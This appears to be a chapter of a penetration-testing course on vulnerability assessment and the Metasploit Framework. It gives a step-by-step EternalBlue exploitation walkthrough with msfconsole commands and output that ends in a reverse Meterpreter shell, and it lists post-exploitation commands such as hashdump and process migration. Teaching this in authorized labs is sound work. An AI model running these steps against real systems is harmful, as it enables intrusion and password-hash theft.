

# 🔴 Step 06 — Vulnerability Assessment & Metasploit Framework

> **Objective:** Transition from discovery to vulnerability assessment and controlled exploitation. Understand CVE scoring, Metasploit's modular architecture, payload delivery mechanics, and in-memory post-exploitation with Meterpreter.

---

## 🖼️ Metasploit Architecture & Workflow Visual Card



---

## 1. Vulnerability Assessment vs. Exploitation

| Phase | Vulnerability Assessment (VA) | Penetration Testing / Exploitation (PT) |
| :--- | :--- | :--- |
| **Primary Goal** | Identify, catalog, and rank known flaws & misconfigurations. | Prove business risk by weaponizing flaws to gain unauthorized access. |
| **Impact** | Low/Passive. Scans ports, software banners, headers, and configs. | Active & Intrusive. Executes exploits, drops payloads, bypasses defenses. |
| **Deliverable** | Prioritized list of vulnerabilities with CVSS scores. | Proof of Concept (PoC), pillaged evidence, root/admin shell, lateral movement paths. |
| **Core Tools** | Nessus, OpenVAS, Nmap NSE, Trivy, Qualys. | Metasploit Framework, Burp Suite, Custom PoC Python scripts, Cobalt Strike. |

### Understanding CVE and CVSS
* **CVE (Common Vulnerabilities and Exposures):** A standardized, publicly tracked identifier for software security vulnerabilities (e.g., `CVE-2017-0144` for EternalBlue, `CVE-2021-44228` for Log4j).
* **CVSS (Common Vulnerability Scoring System):** A quantitative framework (0.0 to 10.0) that measures severity based on exploitability and impact:
  * 🟢 **Low:** `0.1 – 3.9`
  * 🟡 **Medium:** `4.0 – 6.9`
  * 🟠 **High:** `7.0 – 8.9`
  * 🔴 **Critical:** `9.0 – 10.0` (Remote Code Execution without authentication)

---

## 2. Metasploit Framework Architecture

Created by HD Moore in 2003 and maintained by Rapid7, **Metasploit** is the world’s most widely used exploitation platform. It normalizes exploits, payloads, and listeners into reusable building blocks.

```
+--------------------------------------------------------------------------+
|                           METASPLOIT FRAMEWORK                           |
+--------------------------------------------------------------------------+
| Interfaces:  msfconsole (interactive CLI)  |  msfvenom (standalone payload generator)
+--------------------------------------------------------------------------+
| Core Modules:
|   1. Exploit   --> Code that takes advantage of a software vulnerability
|   2. Payload   --> Code executed on the target after successful exploit
|   3. Auxiliary --> Scanners, crawlers, DoS tools, fuzzers (does NOT drop a payload)
|   4. Post      --> Modules run AFTER gaining a shell (gather hashes, pivot)
|   5. Encoders  --> Obfuscates payloads to evade signature-based detection
|   6. NOPs      --> Generates No-Operation sleds for buffer overflow stability
+--------------------------------------------------------------------------+
```

---

## 3. Payloads: Inline vs. Staged & Reverse vs. Bind

The payload is the malicious cargo delivered into the victim's memory once the exploit hijacks execution flow.

### 1. Staged vs. Inline (Single) Payloads
You can immediately identify whether a Metasploit payload is staged or inline by looking at the slash (`/`) delimiters in its name:

```
Inline (Single):  windows/shell_reverse_tcp
Staged:           windows/x64/meterpreter/reverse_tcp
```

* **Inline (Singles):** 
  * The entire payload (shellcode + socket connection + command prompt) is bundled into a single binary blob.
  * *Advantage:* Self-contained, does not require a complex multi-stage download.
  * *Disadvantage:* Very large file size; often cannot fit inside small memory buffer overflow windows.
* **Staged:**
  * **Stage 0 (Stager):** A tiny assembly snippet (a few dozen bytes) injected into memory. Its only job is to connect back to the attacker's machine.
  * **Stage 1 (Stage):** The attacker's listener transmits the large, feature-rich payload (such as full Meterpreter) directly into the victim's RAM.

### 2. Reverse Shell vs. Bind Shell

```
REVERSE SHELL (Default Choice for Penetration Testers):
[Attacker Listener: LHOST:LPORT] <====== [Victim initiates outbound connection]
* Bypasses inbound NAT and router firewalls because modern firewalls allow outbound traffic.

BIND SHELL:
[Attacker] ======> [Victim opens listening port]
* Frequently fails against modern networks because corporate firewalls block unsolicited inbound ports.
```

---

## 4. The Power of Meterpreter

A standard OS shell (`cmd.exe` or `/bin/sh`) creates a new process on disk and transmits plain text. **Meterpreter** (Meta-Interpreter) is an advanced, post-exploitation payload that runs entirely in memory.

### Why Red Teams & Pentesters Use Meterpreter:
1. **100% In-Memory Execution:** Injected via Reflective DLL injection; leaves zero artifacts on the victim's hard drive, evading basic file-integrity monitors.
2. **Encrypted Channel:** All command and control (C2) communication is encrypted via TLS/HTTPS.
3. **Process Migration (`migrate`):** Can invisibly inject itself into a legitimate OS process (like `explorer.exe` or `svchost.exe`). If the initial exploited service crashes or is closed, your session stays alive.

### Essential Meterpreter Commands:
```bash
meterpreter > sysinfo           # Displays OS version, architecture, and hostname
meterpreter > getuid            # Identifies current user (e.g., NT AUTHORITY\SYSTEM)
meterpreter > ps                # Lists all active processes
meterpreter > migrate 1420      # Injects Meterpreter session into PID 1420 (e.g., explorer.exe)
meterpreter > hashdump          # Dumps SAM or shadow password hashes from memory
meterpreter > screenshot        # Captures target's active desktop screen
meterpreter > shell             # Spawns a native interactive OS shell
meterpreter > background        # Backgrounds the session to return to msfconsole
```

---

## 5. The Standard 6-Step Exploitation Workflow

Every exploitation scenario in Metasploit follows the exact same 6-step discipline:

```bash
# Launch the console
msfconsole -q
```

### Step 1: Search for the Exploit or Module
```bash
msf6 > search type:exploit name:eternalblue
msf6 > search cve:2017-0144
```

### Step 2: Select and Activate the Module
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

### Step 3: Inspect & Set Target Options
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RPORT 445
```
* **`RHOSTS` (Remote Hosts):** Target IP address or IP subnet.
* **`RPORT` (Remote Port):** Target port hosting the vulnerable service.

### Step 4: Configure the Payload & Listener
```bash
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST 10.10.14.2
msf6 exploit(...) > set LPORT 4444
```
* **`LHOST` (Local Host):** The attacker's IP address where the victim will call back.
* **`LPORT` (Local Port):** The attacker's listening port.

### Step 5: Check Vulnerability Status (Non-Destructive Probe)
```bash
msf6 exploit(...) > check
[*] 10.10.10.5:445 - The target is vulnerable.
```
> [!TIP]
> Always run `check` when available. It probes the service signature to confirm vulnerability **without** firing the exploit, preventing unintended crashes on client production servers.

### Step 6: Launch the Exploit
```bash
msf6 exploit(...) > exploit -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.10.14.2:4444
[*] 10.10.10.5:445 - Connecting to target for exploitation...
[+] 10.10.10.5:445 - Target successfully exploited!
[*] Sending stage (200774 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.5:49158)
```
* Using `-j` runs the exploit as a background job so your console is not locked.

---

## 6. Managing Active Sessions

When multiple targets or shells are captured, manage them with the `sessions` command:

```bash
msf6 > sessions -l              # List all active compromised sessions
msf6 > sessions -i 1            # Interact with session ID 1
msf6 > sessions -K              # Terminate all active sessions cleanly
```

---

## 7. Safe Legal Practice Environments

Never launch Metasploit against unauthorized public IP addresses. Master your skills on dedicated vulnerable targets:

1. **[Metasploitable 2 & 3 (Rapid7)](https://docs.rapid7.com/metasploit/metasploitable-2/):**
   - The gold-standard vulnerable Linux and Windows VMs designed specifically for practicing Metasploit modules locally.
2. **[TryHackMe — Metasploit: Introduction](https://tryhackme.com/room/metasploitintro):**
   - Free, browser-accessible target guiding you through basic commands and module navigation.
3. **[TryHackMe — Metasploit: Exploitation](https://tryhackme.com/room/rpmetasploit):**
   - Hands-on exploitation room targeting real CVEs, reverse shells, and Meterpreter pivoting.
